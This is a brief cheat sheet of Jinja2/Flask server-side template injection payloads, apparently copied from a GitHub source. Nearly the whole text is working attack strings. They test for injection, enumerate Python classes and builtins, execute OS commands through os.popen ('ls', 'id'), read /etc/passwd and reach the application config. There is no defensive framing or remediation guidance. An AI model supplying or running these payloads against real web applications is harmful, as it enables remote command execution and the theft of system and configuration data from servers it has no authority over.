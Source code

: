 ### TESTING INJECTION CAPABILITIES
{{7*'7'}}

### ALL AVAILABLE CLASSES
{{ "".__class__.__mro__[1].__subclasses__() }}

### SEE PERMISIONS ON THE DIRECTORIES
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls -lah").read() }}

### SEE BUILTINS
{{ self.__init__.__globals__.__builtins__ }}

### READ ETC/PASSWD
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

### READ ALL DIRECTORIES IN / PARTITION
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls /").read() }}

### INFO ON THE USER
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

### SEE CONFIG FILES OF THE DOCKER
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}


